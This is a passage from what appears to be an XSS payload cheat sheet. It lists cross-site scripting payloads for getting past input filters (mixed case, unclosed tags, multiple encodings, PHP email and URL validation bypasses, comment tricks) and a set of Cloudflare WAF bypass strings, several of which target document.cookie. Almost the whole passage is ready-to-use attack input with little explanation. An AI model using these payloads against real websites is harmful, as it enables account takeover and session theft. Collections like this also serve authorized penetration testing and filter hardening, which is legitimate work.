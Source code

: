 ```
<a:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</a:script>
```
> Add a "-->" to payload if input lands in a comment section

> Add a "]]>" if input lands in a CDATA section

## **XSS Cheat Sheet (Bypass)**
19. Mixed Case
```html
<Script>alert(document.cookie)</Script> 
```

20. Unclosed Tags
```html
<svg onload="alert(1)"
```

21. Uppercase Payloads
```html
<SVG ONLOAD=ALERT(1)>
```

22. Encoded XSS
```html
(Encoded)
%3Csvg%20onload%3Dalert(1)%3E 

(Double Encoded)
%253Csvg%2520onload%253Dalert%281%29%253E 

(Triple Encoded)
%25253Csvg%252520onload%25253Dalert%25281%2529%25253E 
```

23. JS Lowercased Input
```html
<SCRİPT>alert(1)</SCRİPT>
```

24. PHP Email Validation Bypass
```html
<svg/onload=alert(1)>"@gmail.com
```

25. PHP URL Validation Bypass
```html
javascript://%250Aalert(1)
```

26. Inside Comments Bypass
```html
<!--><svg onload=alert(1)-->
```

## Bypass WAF
1. Cloudflare
```
<svg%0Aonauxclick=0;[1].some(confirm)//
<svg/onload={alert`1`}>
<a/href=j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(1)&rpar;>
"><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;
"><onx=[] onmouseover=prompt(1)>
%2sscript%2ualert()%2s/script%2u
"Onx=() onMouSeoVer=prompt(1)>"Onx=[] onMouSeoVer=prompt(1)>"/*/Onx=""//onfocus=prompt(1)>"//Onx=""/*/%01onfocus=prompt(1)>"%01onClick=prompt(1)>"%2501onclick=prompt(1)>"onClick="(prompt)(1)"Onclick="(prompt(1))"OnCliCk="(prompt`1`)"Onclick="([1].map(confirm))
```